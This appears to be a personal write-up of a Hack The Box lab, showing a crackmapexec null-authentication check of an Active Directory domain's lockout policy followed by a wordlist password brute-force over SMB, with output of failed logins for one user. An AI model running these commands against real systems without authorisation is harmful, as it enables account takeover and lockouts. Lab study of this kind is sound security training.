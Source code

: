 # Bruteforcing with generated wordlist
## Knowing if Bruteforcing does not lockout accounts
Before we do bruteforcing, we should make sure we dont lockout the target account.
So to know if there is lockout policy for target account , we perform `null authentication` attack via command `crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''` which gives the following output.
![[Pasted image 20210727100616.png]]
Which tells that `null authentication` is enabled and allows for domain enumeration and we can get bunch of information. 
## Bruteforcing using crackmapexec
Using command `crackmapexec smb 10.10.10.161 -u userlist.out -p pwlist.txt`
to bruteforce users, output is as follows.
```bash
❯ crackmapexec smb 10.10.10.161 -u userlist.out -p pwlist.txt                                                                                   
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019april2 STATUS_LOGON_FAILURE                                                                                                        
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019April2 STATUS_LOGON_FAILURE                                                                                                        
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019ApriL2 STATUS_LOGON_FAILURE                                                                                                        
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019AprIl2 STATUS_LOGON_FAILURE                                                                                                        
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019ApRil2 STATUS_LOGON_FAILURE                                                                                                        
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019APril2 STATUS_LOGON_FAILURE                                                                                                        
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019august2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019August2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019AugusT2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019AuguSt2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019AugUst2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019AuGust2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019AUgust2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019autumn2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019Autumn2 STATUS_LOGON_FAILURE                                                                                                       
SMB         10.10.10.161    445    FOREST           [-] htb.local\sebastien:019AutumN2 STATUS_LOGON_FAILURE  
```






